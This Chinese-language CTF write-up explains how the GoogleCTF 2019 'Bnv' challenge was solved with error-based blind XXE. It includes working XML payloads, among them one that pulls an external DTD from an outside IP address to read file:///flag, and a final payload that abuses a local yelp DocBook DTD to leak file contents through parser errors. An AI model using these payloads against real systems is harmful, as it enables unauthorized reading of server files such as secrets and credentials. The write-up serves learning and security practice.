

# \[GoogleCTF2019 Quals]Bnv

## \[GoogleCTF2019 Quals]Bnv

## 考点

* 基于报错的Blind XXE
* 利用本地DTD打XXE

## wp

抓包发现请求内容是json，有json就可能会有XXE



请求头Content-type改成application/xml，用XML试一下


看到需要DTD，那就再加上内部DTD，注意这里要先声明一下`to`和`note`标签，要不会报错

```xml
<?xml version="1.0"?>
<!DOCTYPE note [
<!ELEMENT note (to)>
<!ELEMENT to (#PCDATA)>
<!ENTITY copyright "Copyright runoob.com">
]>
<note>
  <to>Tove  &copyright;</to>
</note> 
```


之前传json的时候，传的数据是message加数字，那这里也用message标签试试，看到请求成功了

```xml
<?xml version="1.0"?>
<!DOCTYPE message [
<!ELEMENT message (#PCDATA)>
<!ENTITY copyright "135601360123502401401250">
]>
<message>&copyright;</message>
```


接着尝试加载外部实体，可以先试试能不能加载外部链接，结果没有反应，换成https://beeceptor.com/的地址就会提示`failed to load external entity "https://beeceptor.com/", line 6, column 6`，难不成会自动忽略http的外部链接吗

```xml
<?xml version="1.0"?>
<!DOCTYPE message [
<!ELEMENT message (#PCDATA)>
<!ENTITY copyright "135601360123502401401250">
<!ENTITY  % xxe SYSTEM "http://121.5.66.238:20001/123.dtd" >
%xxe;
]>
<message>&copyright;&evil;</message>
123.dtd
<!ENTITY evil SYSTEM "file:///flag" >
```

然后试着加载内部文件，提示标记错误，那就是被加载了，但是不符合DTD格式


到这里就知道了大概，要找到Linux内部可以利用的DTD文件，且本题读取了一个错误的实体，会返回完整的实体名。那就可以先读取flag，赋值给a，再去加载一个错误的DTD，例如`/nonexistent/a`就可以利用报错返回a的值，也就是flag的值

最后payload

```xml
<?xml version="1.0"?>
<!DOCTYPE message[
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
<!ENTITY % ISOamsa '
<!ENTITY &#x25; file SYSTEM "file:///flag">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%local_dtd;
]>
```

## 小结

1. 有json可能会有XXE
2. **利用本地DTD文件打XXE**
